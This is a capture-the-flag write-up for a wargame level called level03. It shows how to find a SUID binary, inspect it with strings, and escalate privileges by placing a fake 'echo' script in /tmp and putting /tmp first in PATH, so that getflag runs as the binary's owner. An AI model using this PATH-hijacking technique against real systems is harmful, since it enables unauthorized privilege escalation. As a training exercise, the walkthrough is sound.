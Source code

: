 # Level03
## Step by step
### 1. Locate the executable in `level03` home directory
  ```bash
  > ls -la
  -rwsr-sr-x 1 flag03  level03 8627 Mar  5  2016 level03
  ```

The `level03` file is an executable with the **SUID** bit set, meaning it will execute with the privileges of its owner (`flag03`).

---

### 2. Execute the binary
Running the binary gives the following output:
  ```bash
  > ./level03
   Exploit me
  ```
---

### 3. Analyze the binary with `strings`
The `strings` command reveals printable character sequences in the binary:
  ```bash
  > strings level03
  /lib/ld-linux.so.2
  KT{K
  __gmon_start__
  libc.so.6
  _IO_stdin_used
  setresgid
  setresuid
  system
  getegid
  geteuid
  __libc_start_main
  GLIBC_2.0
  PTRh
  UWVS
  [^_]
  /usr/bin/env echo Exploit me
  ;*2$"
  GCC: (Ubuntu/Linaro 4.6.3-1ubuntu5) 4.6.3
  /home/user/level03
  /usr/include/i386-linux-gnu/bits
  /usr/include/i386-linux-gnu/sys
  level03.c
  ...
  ```
From this, we observe the binary uses `/usr/bin/env echo` to print the message "Exploit me."

---

### 4. Exploit the binary by replacing `echo`
To exploit this, we create a custom `echo` script that runs the `getflag` command:
  ```bash
  >  cat <<hey >/tmp/echo
  > #!/bin/bash
  > getflag
  > hey

  > export PATH=/tmp:$PATH

  > ./level03 
  Check flag.Here is your token : XXX
  ```

  
